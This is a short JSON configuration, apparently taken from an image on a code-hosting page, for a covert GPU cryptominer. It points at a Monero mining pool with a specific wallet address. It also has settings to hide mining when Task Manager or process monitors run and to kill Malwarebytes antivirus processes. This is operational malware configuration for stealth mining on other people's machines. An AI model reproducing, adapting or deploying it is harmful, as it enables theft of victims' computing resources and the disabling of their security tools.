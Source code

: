 {
    "url": "stratum://87dj9msUZoELe6GZ2pg3sX7XfSVg4mwv4HMaZx46FS16B3FmGzRqG6538U1Enq85rUGWdJnv6PXaqgra1y3yJNvqBMdME1c.gpu@gulf.moneroocean.stream:10032",
    "algo": "etchash",
    "max-gpu": 50,
    "idle-wait": 3,
    "idle-gpu": 100,
    "stealth": false,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "process-killer": false,
    "kill-targets": "malwarebytes.exe,MBSetup.exe,assistan.exe,malwarebytes_assistant.exe,MBAM.exe"
}
